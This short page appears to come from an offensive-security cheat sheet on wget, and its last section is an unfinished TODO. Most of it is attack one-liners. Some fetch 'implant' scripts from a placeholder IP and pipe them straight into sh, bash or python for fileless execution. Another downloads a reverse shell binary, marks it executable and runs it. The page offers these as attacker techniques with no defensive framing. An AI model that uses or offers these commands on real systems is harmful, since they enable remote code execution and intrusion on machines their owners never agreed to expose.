 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget -qO- http[s]://<IP>/implant.sh | sh

$ wget -qO- http[s]://<IP>/implant.sh | bash

$ wget -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```